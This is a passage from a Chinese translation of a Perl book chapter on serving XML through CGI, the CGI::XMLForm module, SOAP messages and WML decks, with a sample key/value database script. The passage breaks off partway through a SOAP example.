**CGI::XMLForm**模块构建于CGI模块之上，因此你可以用它替代CGI模块。这样你就能获得CGI模块的全部功能，以及额外的XML处理方法。为指定单个XML元素，该模块采用XSLT风格的查询方式。XSLT（可扩展样式表语言转换）是W3C的推荐标准，你可以在**[www.w3.org/TR/xslt/](https://www.w3.org/TR/xslt/)**上查阅所有相关内容；尽管熟悉XSLT有助于使用**CGI::XMLForm**，但接下来我们讲解的内容在几个示例之后并不难掌握。
例如，你可以通过在属性名前加@前缀来指定XML元素的属性，因此该XSLT路径：**/document/section/@author** 用于指定任意**<document>**元素内**<section>**元素的**author**属性。此外，你还可以使用XSLT谓词（用方括号`[`和`]`包裹）来通过**toXML**指定元素的属性值。示例如下；该HTML文本输入框用于指定**<section>**元素的**copyright**和**onClick**属性的值，同时表明输入框中的值将作为**<section>**元素的**author**属性值：
```html
<input type="text" name="/document/section[@copyright='(c) 2002' and @onClick='format()']/@author">
```
如果我在该文本框中输入“Steve”，生成的XML如下：
```xml
<document>
  <section copyright="(c) 2002" onClick="format()" author="Steve"></section>
</document>
```
你可以通过这种方式使用XSLT路径来指定要创建的XML元素或属性。绝对路径从文档节点开始指定元素或属性，以`/`开头；你也可以使用相对路径，相对路径以元素名或表示父节点的`..`开头。更多相关信息，请参阅**CGI::XMLForm**和XSLT的官方文档。下面是一个创建HTML表格的示例：注意我使用绝对路径开头定义表格，随后创建三个内嵌的**<td>**元素，接着用相对路径创建一个**<tr>**元素，之后再跟三个**<td>**元素：
```html
<input type="hidden" name="/table/tr">
<input type="text" name="td">
<input type="text" name="td">
<input type="text" name="td">
<input type="hidden" name="../tr">
<input type="text" name="td">
<input type="text" name="td">
<input type="text" name="td">
```
上述代码会生成六个文本输入框，如果用户在这些输入框中依次输入文本“Testing...”、“This”、“is”、“only”、“a”、“test.”，**toXML**会生成如下XML：
```xml
<table>
  <tr>
    <td>Testing...</td>
    <td>This</td>
    <td>is</td>
  </tr>
  <tr>
    <td>only</td>
    <td>a</td>
    <td>test.</td>
  </tr>
</table>
```

## 使用readXML
CGI::XMLForm的readXML方法支持对XML文档应用XSLT风格的路径，从而提取文档中的数据。例如，假设你有如下XML文档：
```xml
<?xml version="1.0"?>
<document>The Document
  <section>Section 1
    <p>Hello</p>
    <p>there.</p>
  </section>
  <section>Section 2
    <p>Hello</p>
    <p>again.</p>
  </section>
  <footer>Footer 1</footer>
</document>
```
当你对该文档应用XSLT路径`/document`时，readXML会返回文本“The Document”。通过这种方式，你可以使用XSLT路径查询XML文档，精准提取你需要的任何数据。你也可以使用`*`作为通配符，当你向readXML传入查询路径`/document/section/*`时，它会返回该文档中的所有`<section>`元素，本例中即“Section 1”和“Section 2”。当你使用查询路径`p*`时，你会得到“Hello”、“there.”、“Hello”和“again.”。对XML文档应用XSLT风格查询的功能非常实用，因为你可以编写这类查询语句，从文档中精准提取所需数据。要了解更多关于编写这类查询的内容，请同时查阅XSLT和**CGI::XMLForm**的官方文档，因为目前CGI::XMLForm尚未支持完整的XSLT路径语法。

## 简单对象访问协议（SOAP）
使用XML在互联网上交换数据变得越来越普遍，这类数据交换最流行的协议之一就是*简单对象访问协议（SOAP）*。SOAP消息封装在HTTP头中，这意味着数据交换速度远快于需要同时读取头部和文档、甚至需要多次从服务器请求数据的场景。定义SOAP的W3C文档位于**[www.w3.org/TR/SOAP/](https://www.w3.org/TR/SOAP/)**，该文档对SOAP的描述如下：
> SOAP是一种轻量级协议，用于在去中心化的分布式环境中交换信息。它是一种基于XML的协议，由三部分组成：一是定义了消息描述框架和处理规则的信封，二是用于表达应用自定义数据类型实例的编码规则集，三是表示远程过程调用及响应的约定。SOAP理论上可与多种其他协议结合使用；但本文档仅定义了SOAP与HTTP及HTTP扩展框架结合使用的绑定规范。
你可以使用SOAP消息在互联网上传输数据，例如商业交易中的数据。SOAP消息由头部、主体组成，整体封装在信封中。下面是一个嵌入HTTP头的SOAP消息示例：
```http
POST /StockQuote HTTP/1.1
Host: www.starpowder.com
Content-Type: text/xml; charset="utf-8"
Content-Length: 1024
SOAPAction: "www.starpowder.com"
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <SOAP-ENV:Header>
    <starpowder:Transaction xmlns:starpowder="www.starpowder.com">5</starpowder:Transaction>
  </SOAP-ENV:Header>
  <SOAP-ENV:Body>
    <starpowder:Data xmlns:starpowder="www.starpowder.com">
      <Price>34.5</Price>
    </starpowder:Data>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```
你可以使用Perl的SOAP模块提取SOAP头部和主体中的数据，本章中我们将使用该模块。需要注意的是，SOAP是一个非常大的主题，本章篇幅有限，因此我们仅对其做入门介绍。更多相关信息，请参阅W3C的SOAP页面**[www.w3.org/TR/SOAP/](https://www.w3.org/TR/SOAP/)**。

## 无线标记语言（WML）
近年来备受关注的新型基于XML的语言之一就是*无线标记语言（WML）*。WML及其关联的*无线应用协议（WAP）*面向手机、个人数字助理（PDA）及其他硬件能力受限的手持设备。WML是一种语法受限的语言，在这类设备上实现相对容易，处理WML的设备浏览器被称为*微浏览器*。以下是一些互联网上的WML相关资源：
- **[www.apachesoftware.com](https://www.apachesoftware.com)**——你可以在此获取Klondike，一款流行的WML浏览器。
- **[www.apachesoftware.com/wml/wmldemo.wml](https://www.apachesoftware.com/wml/wmldemo.wml)**——多个Klondike WML示例。
- **[www.wapdesign.org.uk/server.html](https://www.wapdesign.org.uk/server.html)**——WML和WAP教程。
- **[www.wap-uk.com/Developers/Tutorial.htm](https://www.wap-uk.com/Developers/Tutorial.htm)**——WML教程。
- **[www.wapdesign.org.uk/tutorial.html](https://www.wapdesign.org.uk/tutorial.html)**——WML教程。
- **[www.wapforum.org](https://www.wapforum.org)**——全品类WML资源站点。
你可以在表27.1中找到所有WML元素及其属性。
**表27.1 WML元素**
| 元素 | 作用 | 属性 |
|---|---|---|
| **a** | 超链接 | **class**、**href**、**id**、**title**、**xml:lang** |
| **access** | 访问元素 | **class**、**domain**、**id**、**path** |
| **anchor** | 创建锚点 | **class**、**id**、**title**、**xml:lang** |
| **b** | 加粗文本 | **class**、**id**、**xml:lang** |
| **big** | 大号文本 | **class**、**id**、**xml:lang** |
| **br** | 换行 | **class**、**id**、**xml:lang** |


## 第27章 XML：CGI、SOAP 与 WML
### 表27.1 WML元素*（续）*
| 元素 | 作用 | 属性 |
|---------|-----------|------------|
| card | 创建卡片 | class, do, id, label, name, newcontext, onenterbackward, onenterforward, ontimer, optional, ordered, title, type, xml:lang |
| em | 强调文本 | class, id, xml:lang |
| fieldset | 字段集 | class, id, title, xml:lang |
| go | 导航 | accept-charset, class, href, id, method, sendreferer |
| head | 头部区域 | class, id |
| i | 斜体文本 | class, id, xml:lang |
| img | 图像处理 | align, alt, class, height, hspace, id, localsrc, src, vspace, width, xml:lang |
| input | 文本输入框 | class, emptyok, format, id, maxlength, name, size, tabindex, title, type, value, xml:lang |
| meta | 存放元数据 | class, content, forua, http-equiv, id, name, scheme |
| noop | 无操作 | class, id |
| onevent | 事件处理 | class, id, type |
| optgroup | 创建选项组 | class, id, title, xml:lang |
| option | 创建选项 | class, id, onpick, title, value, xml:lang |
| p | 段落 | align, mode, xml:lang, class, id |
| postfield | 提交表单字段数据 | class, id, name, value |
| prev | 返回上一张卡片 | （无） |
| refresh | 处理刷新 | class, id |
| select | 选择控件 | class, id, iname, ivalue, multiple, name, tabindex, title, value, xml:lang |
| setvar | 设置变量 | class, id, name, value |
| small | 小号文本 | class, id, xml:lang |
| strong | 加粗文本 | class, id, xml:lang |
| table | 创建表格 | align, class, columns, id, title, xml:lang |
| td | 表格单元格数据 | class, id, xml:lang |
| template | 模板 | class, id, onenterbackward, onenterforward, ontimer |
| timer | 创建计时器 | class, id, name, value |
| tr | 表格行 | class, id |
| u | 下划线文本 | class, id, xml:lang |

除了官方的WML元素和属性外，你还可以在WML中使用以下字符实体——字符实体代表单个字符，能够提供这些字符的替代表示形式，避免它们被解析为标记：
- &amp;——与号，&
- &apos;——单引号，'
- &gt;——大于号，>
- &lt;——小于号，<
- &nbsp;——不换行空格，' '
- &quot;——引号，"
- &shy;——软连字符，–
如今许多设备都支持WML浏览器。本章中我会使用流行的Apache Klondike WML浏览器。你可以在**www.apachesoftware.com**（当前下载页面为**www.apachesoftware.com/download.html**）免费下载这款适用于Windows等不同平台的浏览器，如果你希望跟着本章的WML示例动手实践，我推荐你下载这款浏览器。

## 创建WML卡片
无线设备的显示空间有限，因此WML文档会被划分为若干*卡片*，一次仅显示一张。完整的WML文档被称为*牌组*。
每份WML文档都以**<wml>**标签开头，文档中的每张卡片都以**<card>**标签开头。
下载WML文档时，整份文档会一同被下载，但同一时间你只能看到一张卡片。正如你所料，由于WML文档也是XML文档，因此需要在WML文档开头添加XML声明：
``` <?xml version="1.0"?> ```
接下来是**<!DOCTYPE>**元素，该元素用于声明当前使用的语言，本例中即为WML。**<!DOCTYPE>**元素是基于W3C的语言的标准组件——严格来说，所有HTML文档也需要以**<!DOCTYPE>**元素开头。
本例中，需要在该元素中声明的授权组织是WAP论坛：
``` <?xml version="1.0"?> <!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml"> ```
文档元素（本例中也被称为牌组元素）是**<wml>**：
``` <?xml version="1.0"?> <!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml"> <wml>
. . .
</wml> ```
这构成了WML文档的骨架。你可以通过**<card>**元素创建文档中的卡片，本例中我会给第一张卡片设置ID为"Card1"，标题为"Welcome to WML"，该标题会显示在浏览器的标题栏中：
``` <?xml version="1.0"?> <!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml"> <wml>
<card id="Card1" title="Welcome to WML">
. . .
</card>
</wml> ```
和XML一样，你可以在WML中添加注释，示例如下：
``` <?xml version="1.0"?> <!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml"> <wml>
<card id="Card1" title="Welcome to WML">
<!-- This is card 1-->
. . .
</card>
</wml> ```
你可以将卡片内的文本放在**<p>**（段落）元素中，因此在第一张卡片中添加如下文本：
``` <?xml version="1.0"?> <!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml"> <wml>
<card id="Card1" title="Welcome to WML">
<!-- This is card 1-->
<p>
Hello from WML
</p>
</card>
</wml> ```
至此我们完成了第一份WML文档。你可以在Klondike浏览器中查看该文档，如图27.1所示。

## 格式化WML文本
你还可以在WML中使用一些基础的文本样式，这些样式继承自HTML，例如**<b>**用于加粗文本，**<u>**用于添加下划线，**<i>**用于设置斜体，以此类推。下面是一个使用这些样式的示例：
``` <?xml version="1.0"?> <!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml"> <wml>
<card id="Card1" title="Formatting Text">
<p>
WML supports <b>bold</b>, <big>big</big>, <em>emphasis</em>, <i>italic</i>, <small>small</small>, and <u>underline</u> text.
</p>
</card>
</wml> ```
你可以在Klondike中查看效果如图27.2所示。

> *注意：* 部分支持WML的设备性能非常基础，无法支持上述这类文本样式。

 图27.1 我们的第一份WML文档。

 图27.2 文本格式化效果。

## 对齐WML段落中的文本
你还可以通过WML的**<p>**元素对齐文本，该元素支持**align**属性，你可以将其值设置为**"left"**、**"center"**或**"right"**。此外还有一个**mode**属性，你可以将其值设置为**"wrap"**或**"nowrap"**，用于指定文本是否自动换行。下面是一个使用**<p>**元素对齐文本的示例：
``` <?xml version="1.0"?> <!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml"> <wml>
<card id="Card1" title="Aligning Text">
<p align="center"><b>Aligning Text</b></p>
<p align="left">Hello</p>
<p align="center">from</p>
<p align="right">WML.</p>
</card>
</wml> ```
你可以在图27.3中查看对齐后的文本效果。

## 创建WML按钮
HTML文档可以展示大量控件，WML也支持控件，但功能相对有限。你可以在WML文档中创建的控件之一是按钮控件，通过**<do>**元素即可实现。例如，你可能需要通过按钮导航到同一牌组中的不同卡片，或者跳转到一个全新的文档。你可以通过将**<do>**元素的**type**属性值设置为"**accept**"，并将其**label**属性值设置为按钮的显示文本来实现该功能：
``` <?xml version="1.0"?> <!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml"> <wml>
<card id="Card1" title="Using Buttons">
<p align="center"><b>Using Buttons</b></p>
<do type="accept" label="Navigate to the Starpowder site.">
. . .
</do>
</card>
</wml> ```

 图27.3 标签内文本的对齐效果。


## 第27章 XML：CGI、SOAP 与 WML
你可以通过**<go>**元素实现页面跳转，用**href**属性指定跳转目标（注意此处我使用的是第25章讨论过的空元素XML语法，因此可以用"/>"结束该元素，无需编写闭合标签）：
```xml
<?xml version="1.0"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml">
<wml>
<card id="Card1" title="Using Buttons">
<p align="center"><b>Using Buttons</b></p>
<do type="accept" label="Navigate to the Starpowder site.">
<go href="http://www.starpowder.com/welcome.wml"/>
</do>
</card>
</wml>
```
你可以在图27.4中看到运行结果，其中按钮清晰可见。点击该按钮后，浏览器会尝试跳转到（不存在的）文档**www.starpowder.com/welcome.wml**（如果你想跳转到已存在的WML文档，可以试试**www.apache.org/wml/index.wml**，这是Klondike浏览器的首页）。
你也可以通过**<go>**元素跳转到同一牌组内的其他卡片；这种情况下，只需将目标卡片的ID赋值给**<go>**元素中的**href**属性即可。下面是一个包含两张卡片的示例牌组，其中的按钮可以让用户从第一张卡片跳转到第二张卡片。注意该按钮的**href**属性被设置为第二张卡片的ID，且前面加了#前缀：

图27.4 在WML中创建按钮。
```xml
<?xml version="1.0"?>
<!DOCTYPE wml PUBLIC "-//WAPFORUM//DTD WML 1.1//EN" "http://www.wapforum.org/DTD/wml_1.1.xml">
<wml>
<card id="Card1" title="Two Card Example">
<p align="center"><b>Two Card Example</b></p>
<p>
Welcome to card 1.
</p>
<do type="accept" label="Navigate to Card 2">
<go href="#Card2"/>
</do>
</card>
<card id="Card2" title="Card 2">
<p>
Welcome to card 2.
</p>
</card>
</wml>
```
你可以在图27.5中看到该WML的运行结果。点击按钮后，浏览器会跳转到卡片2。至此我们对WML有了大致了解——本章的“即时解决方案”部分会介绍更多相关内容，现在我们就来进入该部分。

图27.5 包含两张卡片的牌组。
### 即时解决方案
#### 使用XML配合CGI
“嘿，”新手程序员说，“我遇到大麻烦了。我想用Perl在服务器上创建XML文档，然后将其发送回Internet Explorer浏览器，但该浏览器把这些文档当成HTML而不是XML来处理，我该怎么办？”
“没问题，”你回答，“你只需要正确设置文档的MIME类型即可。”
当你从服务器读取真实的XML文档（即文件名以.xml结尾的文档）时，服务器会识别该文档为XML文档，并相应地设置其MIME类型。这意味着Internet Explorer这类浏览器会识别该文档为XML文档，并按照XML规则处理它。Internet Explorer支持显示XML文档，你可以点击展开或折叠节点，从而显示或隐藏子节点，还可以使用XSLT样式表来指定这类文档的显示方式。
而当你用Perl脚本生成XML并发送回Internet Explorer这类浏览器时，由于不存在真实的物理文档，也就没有文件扩展名来指定数据的MIME类型。这种情况下，你必须显式将MIME类型设置为XML可识别的类型，例如"application/xml"。这是用CGI提供XML服务时最大的问题。
如果Internet Explorer这类浏览器不知道你发送给它的数据需要按XML处理，就会默认按HTML解析。由于你使用的XML标签很可能没有对应的HTML标签，最终大概率会显示空白页面。
为了解决这个问题，同时演示如何用Perl在服务器上提供XML服务，我这里会编写一个示例程序xmldb.cgi，它支持在服务器的数据库中存储键值对，还支持按键查询数据库，所有查询结果都会以XML格式返回。例如，如果你在数据库中把"cheeseburger"存储在键"sandwich"下，之后查询键"sandwich"对应的数据，就会得到如下XML响应，且浏览器确实会将该数据识别为XML文档：
```xml
<?xml version="1.0" ?>
<data>
<key>sandwich</key>
<value>cheeseburger</value>
</data>
```
仅供参考，这个xmldb.cgi程序如清单27.1所示。
#### 清单27.1 xmldb.cgi
```perl
#!/usr/bin/perl
use Fcntl;
use NDBM_File;
use CGI;
$co = new CGI;
if(!$co->param()) {
print $co->header, $co->start_html('XML Database Example'),
$co->center(
$co->h2("Store a key/value pair"),
$co->start_form,
"Key: ",
$co->textfield(-name=>'key',-default=>"",
-override=>1),
$co->br,
"Value: ",
$co->textfield(-name=>'value',-default=>"",
-override=>1),
$co->br,
$co->hidden(-name=>'type',-value=>'write',
-override=>1),
$co->br,
$co->submit('Store'),
$co->reset,
$co->end_form,
$co->h2("Retrieve a value by key"),
$co->start_form,
"Key: ",
$co->textfield(-name=>'key',-default=>"",
-override=>1),
$co->br,
$co->hidden(-name=>'type',-value=>'read',
-override=>1),
$co->br,
$co->submit('Retrieve'),
$co->reset,
$co->end_form,
);
print $co->end_html;
}
if($co->param()) {
print $co->header(-type=>"application/xml");
print "<?xml version = \"1.0\"?>";
print "<data>";
if($co->param('type') eq 'write') {
tie %dataHash, "NDBM_File", "xmldb",
O_RDWR|O_CREAT, 0644;
$key = $co->param('key');
$value = $co->param('value');
$dataHash{$key} = $value;
untie %dataHash;
if ($!) {
print "Error: $!";
}
else {
print "Stored $key => $value";
}
}
else {
tie %dataHash, "NDBM_File", "xmldb",
O_RDWR|O_CREAT, 0644;
$key = $co->param('key');
$value = $dataHash{$key};
print "<key>";
print $key;
print "</key>";
print "<value>";
print $value;
print "</value>";
if ($value) {
if ($!) {
print "Error: $!";
}
}
else {
print "There was no match for that key.";
}
untie %dataHash;
}
print "</data>";
}
```

图27.6 在服务器数据库中存储键值对。
你可以在图27.6中看到xmldb.cgi的运行效果。这是你首次访问xmldb.cgi时出现的初始页面，我在其中分别于标记为“Key”和“Value”的文本框中输入内容，将值"cheeseburger"存储在键"sandwich"下，之后点击图中所示的Store按钮。该脚本会返回一份确认XML文档，如图27.7所示，说明它已将值"cheeseburger"存储在键"sandwich"下。这些数据——实际上该CGI脚本返回的所有数据——都是纯XML格式。

图27.7 确认已存储的键值对。
数据存储完成后，你可以访问xmldb.cgi显示的第一个页面，在“Retrieve a value by key”区域的文本框中输入键"sandwich"，再点击Retrieve按钮来查询数据库，如图27.8所示。这会触发xmldb.cgi在服务器上创建的数据库中搜索键"sandwich"，找到对应的值"cheeseburger"后，返回如图27.9所示的XML文档。

图27.8 查询服务器上的数据库。

图27.9 从数据库中检索数据。


这就是此情况下返回的XML文档结构；如前所述，你请求的键被包裹在**<key>**元素中，在数据库中找到的对应值被包裹在**<value>**元素中：
```xml
<?xml version="1.0" ?>
<data>
<key>sandwich</key>
<value>cheeseburger</value>
</data>
```
这就是xmldb.cgi的工作方式；现在来逐步拆解它。如果你调用这个脚本时没有传递任何参数（也就是说，你只是直接访问该脚本），它会显示图27.6中所示的页面，上面只有一些用于输入或检索数据的HTML控件。这是它用来显示该页面的代码：
```perl
#!/usr/bin/perl
use Fcntl;
use NDBM_File;
use CGI;
$co = new CGI;
if(!$co->param()) {
print $co->header, $co->start_html('XML Database Example'), $co->center(
$co->h2("Store a key/value pair"),
$co->start_form,
"Key: ",
$co->textfield(-name=>'key',-default=>"",
-override=>1),
$co->br,
"Value: ",
$co->textfield(-name=>'value',-default=>"",
-override=>1),
$co->br,
$co->hidden(-name=>'type',-value=>'write',
-override=>1),
$co->br,
$co->submit('Store'),
$co->reset,
$co->end_form,
$co->h2("Retrieve a value by key"),
$co->start_form,
"Key: ",
$co->textfield(-name=>'key',-default=>"",
-override=>1),
$co->br,
$co->hidden(-name=>'type',-value=>'read',
-override=>1),
$co->br,
$co->submit('Retrieve'),
$co->reset,
$co->end_form,
);
print $co->end_html;
}
```
请注意，这个Perl脚本创建了两个HTML表单，一个用于需要存储键/值对的场景，另一个用于需要输入键来检索数据的场景。我没有为页面上的这两个HTML表单指定数据发送的目标，因此数据只会被回发到同一个脚本。我可以通过检查CGI.pm的**param**方法的返回值来判断脚本是否被调用来处理数据；如果返回值为真，说明有等待处理的数据。那我们怎么知道数据来自哪个表单呢？我在每个表单中都添加了一个名为“type”的隐藏控件；如果用户要向数据库写入数据，这个控件会被设置为“write”；如果用户想从数据库检索数据，这个控件会被设置为“read”。

## 设置XML的MIME类型
程序中的这两个HTML表单负责处理数据的存储和检索，现在来实际执行这些任务。如果调用这个脚本时HTML控件中存储了数据，CGI.pm的**param**方法将返回真值。而在所有情况下，无论是存储数据、检索数据，还是返回错误，我们返回的都是XML数据，因此需要将其MIME类型设置为被接受的XML类型，比如“application/xml”。你可以通过CGI.pm的**header**方法来实现这一点，该方法允许你将MIME类型设置在HTTP头中。我将按如下方式开始返回XML文档：
```perl
if($co->param()) {
print $co->header(-type=>"application/xml");
print "<?xml version = \"1.0\"?>";
print "<data>";
```

## 向数据库存储数据
如果**type**参数的文本被设置为“**write**”，说明用户想要向数据库存储数据。这种情况下，我会打开一个名为xmldb的NDBM数据库文件，如果需要的话会创建它：
```perl
if($co->param()) {
print $co->header(-type=>"application/xml");
print "<?xml version = \"1.0\"?>";
print "<data>";
if($co->param('type') eq 'write') {
tie %dataHash, "NDBM_File", "xmldb", O_RDWR|O_CREAT, 0644;
.
```
接下来，我会获取用户想要存储的键和值数据：
```perl
$key = $co->param('key');
$value = $co->param('value');
.
```
我将按以下方式将这些数据存储到数据库文件中：
```perl
$dataHash{$key} = $value;
untie %dataHash;
.
```

## 第27章 XML：CGI、SOAP与WML
现在我们需要告知用户操作结果。如果出现错误，我们可以上报错误；否则，我们可以告知用户数据已成功存储：
```perl
if ($!) {
print "Error: $!";
} else {
print "Stored $key => $value";
}
}
}
```

## 从数据库检索数据
另一方面，如果用户想要从数据库检索数据，我们可以在数据库中搜索用户指定的键，并在XML文档中同时返回该键和对应的值。首先，我将一个哈希关联到数据库，然后查找与用户请求的键对应的值：
```perl
if($co->param()) {
print $co->header(-type=>"application/xml");
print "<?xml version = \"1.0\"?>";
print "<data>";
if($co->param('type') eq 'write') {
tie %dataHash, "NDBM_File", "xmldb", O_RDWR|O_CREAT, 0644;
$key = $co->param('key');
$value = $co->param('value');
$dataHash{$key} = $value;
untie %dataHash;
if ($!) {
print "Error: $!";
} else {
print "Stored $key => $value";
}
} else {
tie %dataHash, "NDBM_File", "xmldb", O_RDWR|O_CREAT, 0644;
$key = $co->param('key');
$value = $dataHash{$key};
```
现在我们可以用检索到的数据创建**<key>**和**<value>**元素：
```perl
print "<key>";
print $key;
print "</key>";
print "<value>";
print $value;
print "</value>";
```
如果出现错误，我们可以按以下方式处理：
```perl
if ($value) {
if ($!) {
print "Error: $!";
}
} else {
print "There was no match for that key.";
}
untie %dataHash;
}
print "</data>";
}
```
以上就是全部内容。通过这种方式，我们实现了使用Perl向数据库存储数据，以及将数据以XML格式检索出来。现在我们已经完成了XML与Perl CGI的接口对接。

## CGI::XMLForm
“你说，”新手程序员说道，“要是我能在网页浏览器里直接通过输入想要用的值就即时生成XML，岂不是太酷了？”
“嗯，”你说，“只要用CGI::XMLForm模块，你就能做到这一点。”
CGI::XMLForm模块并不包含在标准Perl发行版中，但你可以从CPAN获取它，也可以用Perl包管理器PPM安装（输入“install CGI-XMLForm”即可）。我已经在本章的深入讲解部分介绍过如何使用toXML创建XML；下面是一个CGI脚本示例cgixmlform.cgi，展示了如何使用toXML：
```perl
use CGI::XMLForm;
$co = new CGI::XMLForm;
```


```perl
if ($co->param) {
 print $co->toXML;
}
```

你可以通过传递给CGI脚本的控件的名称来指定要创建的XML，并将XML的文本内容作为该控件的文本值。

下面以cgixmlform.cgi为例说明其工作原理：我会将待创建的XML以及要放入XML的文本作为**名称=值**对传递给CGI.pm（CGI.pm会像我们之前调试CGI脚本时讨论的那样，在命令行中读取这个名称和值）——最终的XML如下：
```bash
% perl cgixmlform.cgi "/document/section/topic/text"="Hello"
```
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<document>
 <section>
  <topic>
   <text>Hello</text>
  </topic>
 </section>
</document>
```

通过这种方式，你可以使用**CGI::XMLForm**动态创建XML，并将HTML控件的数据传递给它。

### 使用CGI::XMLForm查询XML
你可以使用**CGI::XMLForm**模块的**readXML**方法查询XML文档。正如本章“深入阅读”部分所讨论的，你可以向该方法传递XSLT风格的查询，**readXML**会以列表中的键值对形式返回你传入的查询以及它找到的匹配结果，它会按文档顺序遍历匹配项。举个例子可以更清楚地说明：

下面我将使用名为cgixmlform.xml的文档，对它执行几个查询：
```xml
<?xml version="1.0"?>
<document>The Document
 <section>Section 1
  <p>Hello</p>
  <p>there.</p>
 </section>
 <section>Section 2
  <p>Hello</p>
  <p>again.</p>
 </section>
 <footer>Footer 1</footer>
</document>
```

现在，在一个名为cgixmlform.cgi的CGI脚本中，我会打开cgixmlform.xml文件：
```perl
use CGI::XMLForm;
$co = new CGI::XMLForm;
if ($co->param) {
 print $co->toXML;
} else {
 open(FILE, "cgixmlform.xml") or die "Error!";
 @queries = ('/document', '/document/section*', 'p*', '/document/footer');
 @a = $co->readXML(*FILE, @queries);
 for ($loop_index = 0; $loop_index < $#a + 1; $loop_index += 2) {
  print $a[$loop_index] . ": " . $a[$loop_index + 1] . "\n";
 }
}
```

我会设置一组XSLT风格的查询数组，用于对cgixmlform.xml中的XML执行查询（末尾的星号是通配符，意味着**readXML**会返回它遇到的所有匹配项，而不仅仅是第一个）：
- `/document`: 匹配根document节点
- `/document/section*`: 匹配所有section节点及其子节点
- `p*`: 匹配所有p节点及其内容
- `/document/footer`: 匹配footer节点

然后我会使用**readXML**方法将这些查询应用到cgixmlform.xml上，把它返回的列表赋值给数组**@a**：

每次**readXML**遇到匹配的查询时，它会返回查询本身（如"/document"）和匹配项中的文本（如"The Document"），这意味着**@a**会存储查询/匹配对。我可以通过以下循环方式输出所有匹配的查询以及对应的匹配文本：

以上就是全部内容。运行这段代码的结果如下：
```bash
% perl cgixmlform.cgi
/document: The Document
/document/section: Section 1
p: Hello
p: there.
/document/section: Section 2
p: Hello
p: again.
/document/footer: Footer 1
```

如你所见，**readXML**会按照文档顺序，返回它找到的匹配文本和对应的查询。

### 使用简单对象访问协议（SOAP）
正如本章“深入阅读”部分所讨论的，SOAP是一种用于交换基于XML的消息的协议，这类消息可以嵌入HTTP头中。SOAP消息被封装在SOAP信封中，示例如下：
```xml
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/" ...
```

SOAP信封中通常包含两个元素：头（header）和体（body）。头通常用于标识消息的性质，体则用于存放数据本身。你可以在头中放置自定义元素，示例如下：
```xml
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
 <SOAP-ENV:Header>
  <starpowder:Transaction xmlns:starpowder="www.starpowder.com">5</starpowder:Transaction>
 </SOAP-ENV:Header>
 ...
```

SOAP消息的体用于存放数据，你可以用所需的XML来构建它，示例如下：
```xml
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
 <SOAP-ENV:Header>
  <starpowder:Transaction xmlns:starpowder="www.starpowder.com">5</starpowder:Transaction>
 </SOAP-ENV:Header>
 <SOAP-ENV:Body>
  <starpowder:Data xmlns:starpowder="www.starpowder.com">
   <Price>34.5</Price>
  </starpowder:Data>
 </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```


用于在Perl中处理SOAP的模块也叫SOAP，它包含大量子模块，例如**SOAP::Envelope**、**SOAP::EnvelopeMaker**、**SOAP::Packager**、**SOAP::Parser**、**SOAP::OutputStream**等。下面我们来看看用于解析SOAP消息的**SOAP::Parser**模块。

目前**SOAP::Parser**模块要求SOAP消息使用非W3C的XML命名空间（尽管未来可能会调整）：它不采用我们之前为遵循W3C SOAP规范而使用的**http://schemas.xmlsoap.org/soap/envelope/**命名空间。除非你使用"urn:schemas-xmlsoap-org:soap.v1"这个命名空间，否则Perl的SOAP解析器会报错，因此我在下面的soap.xml文档中使用了该命名空间：
```xml
<SOAP-ENV:Envelope xmlns:SOAP-ENV="urn:schemas-xmlsoap-org:soap.v1" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
 <SOAP-ENV:Header>
